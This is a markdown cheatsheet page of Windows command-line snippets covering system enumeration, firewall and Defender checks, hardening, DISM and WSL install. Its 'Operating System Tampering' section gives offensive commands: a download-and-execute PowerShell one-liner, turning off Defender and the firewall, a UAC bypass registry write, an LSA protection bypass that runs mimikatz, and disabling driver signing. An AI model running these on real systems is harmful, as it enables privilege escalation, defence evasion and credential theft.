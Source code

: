 ```yaml
---
layout: post
title: Sysadmin WIN CLI
category: Sysadmin
parent: Sysadmin
grand_parent: Cheatsheets
modified_date: 2022-07-06
permalink: /:categories/:title/
---
```

<!-- vscode-markdown-toc -->
* 1. [listing system config](#listingsystemconfig)
	* 1.1. [OS and KB config](#OSandKBconfig)
	* 1.2. [network config & file shares](#networkconfigfileshares)
	* 1.3. [users & groups](#usersgroups)
	* 1.4. [products, processes and services](#productsprocessesandservices)
* 2. [Security Checks](#SecurityChecks)
	* 2.1. [windows firewall status](#windowsfirewallstatus)
	* 2.2. [windows defender status](#windowsdefenderstatus)
* 3. [Operating System Tampering](#OperatingSystemTampering)
	* 3.1. [configure network ip address](#configurenetworkipaddress)
	* 3.2. [donwload ps activedirectory module](#donwloadpsactivedirectorymodule)
	* 3.3. [windows defender: disable](#windowsdefender:disable)
	* 3.4. [windows firewall: disable](#windowsfirewall:disable)
	* 3.5. [windows uac: bypass](#windowsuac:bypass)
	* 3.6. [Windows lsaprotection: bypass](#Windowslsaprotection:bypass)
	* 3.7. [Windows driver signature: disable](#Windowsdriversignature:disable)
	* 3.8. [SMBv1: enable](#SMBv1:enable)
* 4. [Operating System Hardening](#OperatingSystemHardening)
	* 4.1. [LLMNR: disable](#LLMNR:disable)
	* 4.2. [MS-MSDT: disable](#MS-MSDT:disable)
* 5. [Windows DISM](#WindowsDISM)
* 6. [Windows WSL manual distro install](#WindowsWSLmanualdistroinstall)

<!-- vscode-markdown-toc-config
	numbering=true
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

##  1. <a name='listingsystemconfig'></a>listing system config
###  1.1. <a name='OSandKBconfig'></a>OS and KB config
```powershell
# listing OS version
wmic os list brief
wmic os get MUILanguages

# listing KB wmi
wmic qfe list full /format:table

# listing KB ps
powershell -Command "systeminfo /FO CSV" | out-file C:\Windows\Temp\systeminfo.csv
import-csv C:\Windows\Temp\systeminfo.csv | ForEach-Object{$_."Correctif(s)"}
```

###  1.2. <a name='networkconfigfileshares'></a>network config & file shares
```powershell
# listing network hardware
wmic nic list brief
ipconfig /all

# listing network software 
wmic nicconfig where IPEnabled='true' get Caption,DefaultIPGateway,Description,DHCPEnabled,DHCPServer,IPAddress,IPSubnet,MACAddress
ipconfig /all
route -n
netstat -ano

# listing network shares
wmic netuse list brief
net use

wmic share
net share

# listing the domain controllers
nltest /dclist:dom.corp
```

###  1.3. <a name='usersgroups'></a>users & groups
```powershell
# listing local users
wmic netlogin list brief
net user
net localgroup
net localgroup Administrators
```

###  1.4. <a name='productsprocessesandservices'></a>products, processes and services
```powershell
# listing windows product
wmic PRODUCT get Description,InstallDate,InstallLocation,PackageCache,Vendor,Version /format:csv
# listing windows processes
wmic process get CSName,Description,ExecutablePath,ProcessId /format:csv
# listing windows services 
wmic service get Caption,Name,PathName,ServiceType,Started,StartMode,StartName /format:csv
```

# listing local users
##  2. <a name='SecurityChecks'></a>Security Checks

###  2.1. <a name='windowsfirewallstatus'></a>windows firewall status
```batch
# logfile: %systemroot%\system32\LogFiles\Firewall\pfirewall.log
netsh advfirewall show allprofiles
netsh firewall show portopening
```

###  2.2. <a name='windowsdefenderstatus'></a>windows defender status
```batch
powershell -inputformat none -outputformat text -NonInteractive -Command 'Get-MpPreference | select -ExpandProperty "DisableRealtimeMonitoring"'
```

##  3. <a name='OperatingSystemTampering'></a>Operating System Tampering

###  3.1. <a name='configurenetworkipaddress'></a>configure network ip address
```batch
netsh
interface ip set address "connection name" static 192.168.1.1 255.255.255.0 192.168.1.254
```

###  3.2. <a name='donwloadpsactivedirectorymodule'></a>donwload ps activedirectory module 
```batch
#version 1
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory
```

###  3.3. <a name='windowsdefender:disable'></a>windows defender: disable
```batch
powershell.exe -Command Set-MpPreference -DisableRealtimeMonitoring $true
```


###  3.4. <a name='windowsfirewall:disable'></a>windows firewall: disable
```batch
netsh advfirewall set publicprofile state off
netsh advfirewall set privateprofile state off
netsh advfirewall set domainprofile state off
netsh advfirewall set allprofiles state off
```

###  3.5. <a name='windowsuac:bypass'></a>windows uac: bypass
```batch
powershell New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value cmd.exe -Force
```

###  3.6. <a name='Windowslsaprotection:bypass'></a>Windows lsaprotection: bypass
```batch
powershell .\ConsoleApplication1.exe/InstallDriver
powershell .\ConsoleApplication1.exe/makeSYSTEMcmd
powershell .\mimikatz.exe
```

###  3.7. <a name='Windowsdriversignature:disable'></a>Windows driver signature: disable
```batch
bcdedit.exe /set nointegritychecks on
bcdedit.exe /set testsigning on
```

###  3.8. <a name='SMBv1:enable'></a>SMBv1: enable
```powershell
# DISM 
DISM /online /enable-feature /featurename:SMB1Protocol
DISM /online /enable-feature /featurename:SMB1Protocol-Client
DISM /online /enable-feature /featurename:SMB1Protocol-Server
DISM /online /enable-feature /featurename:SMB1Protocol-Deprecation

# win10 tampering: PS activate SMBv1 OptionalFeatures
Enable-WindowsOptionalFeature -Online -FeatureName smb1protocol
```

##  4. <a name='OperatingSystemHardening'></a>Operating System Hardening
###  4.1. <a name='LLMNR:disable'></a>LLMNR: disable
```
REG ADD  “HKLM\Software\policies\Microsoft\Windows NT\DNSClient”
REG ADD  “HKLM\Software\policies\Microsoft\Windows NT\DNSClient” /v ”EnableMulticast” /t REG_DWORD /d “0” /f
```
###  4.2. <a name='MS-MSDT:disable'></a>MS-MSDT: disable
```
# MS-MSDT protocol used by follina exploit, CVE-2022-30190
RED DEL "HKEY_CLASSES_ROOT\ms-msdt" /f
```

##  5. <a name='WindowsDISM'></a>Windows DISM
```powershell
# Pre requisites: Admin rights
# get all windows feature and save to a txt file
DISM /online /get-features /format:table > C:\Temp\dism_listing.txt
get-windowsoptionalfeature -online | ft | more

# get windows feature that are enable/disable
DISM /online /get-features /format:table | find “Enabled” | more
DISM /online /get-features /format:table | find “Disabled” | more

# get windows feature by its name
DISM /online /get-featureinfo /featurename:Microsoft-Windows-Subsystem-Linux
DISM /online /get-featureinfo /featurename:TelnetClient
get-windowsoptionalfeature -online -featurename SMB1Protocol*
get-windowsoptionalfeature -online -featurename SMB1Protocol* |ft
```

##  6. <a name='WindowsWSLmanualdistroinstall'></a>Windows WSL manual distro install
```powershell
# Note: By pass the GPO blocking the exec of the App Store app

Enable-WindowsOptionalFeature -Online -FeatureName Microsoft-Windows-Subsystem-Linux
New-Item C:\Ubuntu -ItemType Directory
Set-Location C:\Ubuntu
Invoke-WebRequest -Uri https://aka.ms/wsl-ubuntu-1604 -OutFile Ubuntu.appx -UseBasicParsing
Invoke-WebRequest -Uri https://aka.ms/wslubuntu2004 -OutFile Ubuntu.appx -UseBasicParsing
Invoke-WebRequest -Uri https://aka.ms/wsl-kali-linux-new -OutFile Kali.appx -UseBasicParsing
 
# Extract and execute the EXE in the archive to install the distro
Rename-Item .\Ubuntu.appx Ubuntu.zip
Expand-Archive .\Ubuntu.zip -Verbose
Ubuntu.exe

# List the distributions installed
wslconfig /list /all
wsl -l
```